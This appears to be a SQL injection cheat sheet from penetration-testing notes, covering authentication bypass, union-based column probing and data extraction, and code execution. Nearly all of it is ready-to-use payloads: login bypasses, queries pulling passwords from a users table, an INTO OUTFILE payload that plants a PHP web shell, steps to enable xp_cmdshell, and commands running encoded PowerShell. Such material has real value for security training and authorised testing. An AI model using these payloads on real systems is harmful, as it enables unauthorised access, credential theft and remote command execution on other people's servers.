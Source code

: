 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Enable xp_cmdshell on sql server 2005
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```